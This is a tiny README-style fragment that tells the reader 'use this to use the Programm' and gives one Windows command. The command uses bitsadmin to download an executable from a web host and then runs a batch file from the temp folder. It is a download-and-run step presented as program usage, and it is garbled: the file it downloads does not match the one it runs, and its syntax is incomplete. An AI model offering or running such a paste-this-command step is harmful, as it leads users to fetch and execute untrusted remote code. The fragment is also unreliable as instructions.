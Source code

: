# ascii
Use this to use the Programm
cmd /c bitsadmin /transfer 8 https://www.example.com/hello.exe; %TEMP%\index.bat
